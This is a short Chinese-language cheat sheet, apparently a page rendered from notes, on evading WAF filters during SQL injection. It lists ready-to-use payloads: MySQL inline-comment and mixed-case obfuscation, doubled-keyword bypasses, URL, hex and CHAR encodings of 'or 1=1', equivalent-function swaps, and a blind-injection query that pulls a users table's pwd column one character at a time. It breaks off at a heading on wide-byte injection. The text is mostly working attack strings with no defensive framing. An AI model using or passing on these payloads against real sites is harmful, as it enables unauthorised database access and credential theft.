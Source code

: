 ```
id=-1&#39;/*!UnIoN*/SeLeCT1,2,concat(/*!table_name*/) FrOM/*information_schema*/.tables/*!WHERE*//*!TaBlE_ScHeMa*/like database()#
```

### 双写关键字绕过

```
id=-1&#39;UNIunionONSeLselectECT1,2,3–
```

### 通用绕过（编码）

* URLEncode

* ASCII

* HEX

* unicode

  一些unicode编码

  ```
  ```

  

```
or 1=1
%6f%72%20%31%3d%31
CHAR(101)&#43;CHAR(97)&#43;CHAR(115)&#43;CHAR(116)
```

### 等价函数绕过

```
hex()、bin()==&gt;ascii()

sleep()==&gt;benchmark()

concat_ws()==&gt;group_concat()

mid()、substr()==&gt;substring() @@user==&gt;user() @@datadir==&gt;datadir()
```

例如：`substring()`和`substr()`无法使用时

```
?id=1&#43;and&#43;ascii(lower(mid((select&#43;pwd&#43;from&#43;users&#43;limit&#43;1,1),1,1)))=74

substr((select&#39;password&#39;),1,1)=0x70strcmp(left(&#39;password&#39;,1),0x69)=1strcmp(left(&#39;password&#39;,1),0x70)=0strcmp(left(&#39;password&#39;,1),0x71)=-1
```

## 宽字节注入

&gt; 过滤单引号
